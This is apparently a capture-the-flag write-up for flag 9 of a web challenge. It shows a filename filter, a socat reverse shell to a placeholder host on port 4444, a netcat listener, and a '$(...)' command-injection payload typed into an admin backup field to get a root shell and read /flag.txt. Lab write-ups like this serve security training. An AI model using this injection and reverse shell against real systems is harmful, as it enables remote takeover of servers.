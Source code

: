 Search the internet for an example for reverse shells... and find one which does not need some of the "forbitten" characters
```
            if any([c in filename for c in '/\\%{}']):
                flash("Illegal characters in filename")    
```

maybeee.. this will work - this will call <endpoint> on port 4444
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<endpoint>:4444
```

so start a netcat listener on port 4444 on a machine which is reachable over the internet.

```
attacker # nc -v -l -p 4444
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
```
Ready to go. Now open the /admin endpoint on the Docker container again and search fod the `Site Backup function`  
There is a text field where you can enter the filename.  
Now lets combine our reverse shell with something to end the `filename` with `.tar`  
Lets enter the following string and press `Submit` ($() to execute the command)
```
$(socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<my_ip>:4444);echo .tar
```

And going back to the listening `netcat` we have a shell!!  
![flag9](images/flag9_1.png)

Now we just have to `cd /root` and get the `flag.txt`.  
But wait... there is no flag.txt?  
Okay - here is the description a bit wrong... its _NOT_ `/root/flag.txt` its `/flag.txt`.  
So `cat /flag.txt` and we got Number 9!
![flag9](images/flag9_2.png)
